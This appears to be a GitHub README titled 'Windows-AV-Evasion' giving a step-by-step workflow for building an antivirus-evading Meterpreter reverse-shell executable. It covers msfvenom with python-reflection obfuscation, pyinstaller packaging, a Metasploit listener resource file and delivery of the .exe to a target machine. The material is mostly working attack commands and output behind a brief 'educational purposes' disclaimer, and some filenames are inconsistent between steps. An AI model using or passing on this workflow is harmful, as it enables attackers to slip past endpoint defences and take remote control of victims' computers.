 # Windows-AV-Evasion
The easiest way to achieve a revershell bypassing Windows Defencer 

<img width="324" height="324" alt="image" src="https://github.com/user-attachments/assets/18267b34-b490-4dec-b64b-f39866f96b88" />


> [!WARNING]  
> The entire repo and the information shown is only for educational and informational porpuses.

## Workflow
First, with `msfvenom` we make the payload as a `.py` file and using `python-reflection` in order to make the exploit already obfuscated. 

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.20 lport=443 -f python-reflection -o reload.py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 203846 bytes
Final size of python-reflection file: 1337649 bytes
Saved as: reload.py

```

Then we need to add the `ctypes` since it's needed by `python-reflection`
```shell
nano reload.py 
```
<img width="1086" height="119" alt="image" src="https://github.com/user-attachments/assets/52339303-b351-460f-ba66-131586371201" />


Now in order to generate a .exe file we can use pyinstaller from Windows or we can use pyinstaller within`wine` if we had it previously installer. 
 
```shell
wine pyinstaller -F hoax_shell.py --onefile
```

Or directly in Windows: 
```powershell
pyinstaller -F hoax_shell.py --onefile
```

Once we have the .exe file, we run a meterpreter session either manually or with the next `.rc` file:

```shell
nano test.rc
```

```shell
use payload windows/x64/meterpreter_reverse_tcp
set lhost 192.168.1.20
set lport 443 
exploit
```

```bash
msfconsole -r test.rc
```

Then we just send the `.exe` to the target machine and we can execute it either by using GUI (RDP) or using remote command execution.

<img width="1280" height="800" alt="image" src="https://github.com/user-attachments/assets/a1a195fd-e432-477e-b37c-0e72feb753bb" />


The script embed will start a meterpreter shell using meterpreter waiting for connections 

```shell
$ ./listiner.sh


[!] Missing parameters.


[USE] ./test.sh <LHOST> <LPORT>

Parameters:
  <LHOST>   LOCAL IP
  <LPORT>   LOCAL PORT

Example: ./test.sh 192.168.1.20 443

```
